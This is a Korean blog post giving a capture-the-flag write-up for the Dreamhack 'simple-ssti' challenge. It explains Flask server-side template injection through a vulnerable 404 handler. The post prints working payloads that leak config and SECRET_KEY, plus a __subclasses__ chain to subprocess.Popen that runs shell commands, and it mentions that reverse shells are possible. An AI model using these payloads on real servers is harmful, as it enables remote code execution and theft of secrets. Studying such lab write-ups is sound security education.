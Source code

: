 ```yaml
---
title: (2) Dreamhack simple-ssti 문제 풀이
date: 2024-01-07 +09:00
categories:
  - 웹해킹
tags:
  - [웹해킹, 드림핵]
---
```

{% raw %}
## 문제 설명
존재하지 않는 페이지 방문시 404 에러를 출력하는 서비스입니다.  
SSTI 취약점을 이용해 플래그를 획득하세요. 플래그는 flag.txt, FLAG 변수에 있습니다.

## SSTI
일단 ssti는 공격자가 서버의 기본 템플릿 구문을 이용하여 악성 페이로드를 삽입하여 서버에서 실행되도록 하는 취약점을 말합니다. 예를 들자면 이런겁니다.  
index.html을 이렇게 구성하고
```html
<html>
  <body>
    <h1>{{1+2}}</h1>
  </body>
</html>
```
Flask로 서버를 띄워보면
![](https://kyuyeop.github.io/assets/img/post/2/1.png)
이렇게 3이라는 값이 출력되는 걸 볼 수 있습니다. 참고로 근본은 `{{7*7}}`입니다만 식상해서...  
만약 사용자의 입력값을 별도의 처리 없이 그대로 사이트에 반영시킨다면 사용자가 특정 구문을 입력함으로서 서버에 원격명령을 실행하도록 할 수 있겠죠.  

그럼 이제 문제를 풀어봅시다.

## 문제 풀이
빠르게 코드부터 확인해봅시다.
```python
#!/usr/bin/python3
from flask import Flask, request, render_template, render_template_string, make_response, redirect, url_for
import socket

app = Flask(__name__)

try:
    FLAG = open('./flag.txt', 'r').read()
except:
    FLAG = '[**FLAG**]'

app.secret_key = FLAG


@app.route('/')
def index():
    return render_template('index.html')

@app.errorhandler(404)
def Error404(e):
    template = '''
    <div class="center">
        <h1>Page Not Found.</h1>
        <h3>%s</h3>
    </div>
''' % (request.path)
    return render_template_string(template), 404

app.run(host='0.0.0.0', port=8000)
```
코드에서는 존재하지 않는 페이지로 접속했을때 즉, 404 에러 페이지가 뜰때 경로에 따라 어떤 페이지가 존재하지 않는지 알려주는 기능이 구현되어 있습니다.  
request.path를 그대로 넣어버리기 때문에 ssti 취약점이 발생합니다. 앞에서 처럼 {{1+2}}가 작동하는지 확인하기 위해 /{{1+2}} 를 입력해 보면
![](https://kyuyeop.github.io/assets/img/post/2/2.png)
이렇게 1+2가 계산되어 3이 출력되는 걸 볼 수 있습니다. 

그러면 flag를 얻으려면 뭘 입력해야할까요?  
바로 /{{config}} 입니다. 12번째 줄에 보면
```python
app.secret_key = FLAG
```
이런 구문이 있습니다. secret_key가 flag로 들어가 있는 상태이니 secret_key를 알아내면 됩니다.  
flask는 대부분의 정보가 config로 들어가게 됩니다. 따라서 {{config}}를 삽입하게 된다면 secret_key를 포함한 각종 정보들이 나옵니다. 

실제로 입력해보면
![](https://kyuyeop.github.io/assets/img/post/2/3.png)
이렇게 SECRET_KEY가 출력됩니다. 만약 SECRET_KEY만 얻고 싶다면 {{config.SECRET_KEY}}를 입력하면 됩니다.
![](https://kyuyeop.github.io/assets/img/post/2/4.png)
오늘은 이렇게 ssti 취약점과 dreamhack의 simple-ssti 문제를 풀어보았습니다.  
템플릿 엔진은 서버마다 사용하는게 다를 수 있으니 염두에 두셔야 합니다.  

끝으로 어떻게 원격 명령을 내릴 수 있는지도 알아보도록 하겠습니다.  
가장 널리 알려진 방법은 subprocess.Popen을 이용합니다.
```python
{{''.__class__.__mro__[1].__subclasses__()[408]('cat flag.txt',shell=True,stdout=-1).communicate()}}
```
먼저 '' 즉, str의 class를 가져오고 \_\_mro__를 이용해 상속 받는 클래스를 가져옵니다. 여기서는 2번째 클래스인 object를 받아옵니다.  
그리고 object의 subclasses를 가져와서 확인해보면 409번째가 subprocess.Popen 입니다. 이건 사용하는 파이썬 버전 마다 다를 수 있으니 슬라이싱을 통해 직접 찾아보셔야 합니다.  
이후에는 파이썬의 subProcess.Popen 처럼 쓰면 됩니다. 실제로 입력하면
![](https://kyuyeop.github.io/assets/img/post/2/5.png)
이렇게 flag가 나옵니다.  

이번에는 간단하게 flag만 출력해 보았지만 얼마든지 전체 권한을 가져올 수 있을 겁니다. 원한다면 리버스 쉘도 얻을 수 있습니다.  
다양한 페이로드들이 이미 알려져 있으니 관심있으면 한번 찾아보시면 도움 될겁니다.
{% endraw %}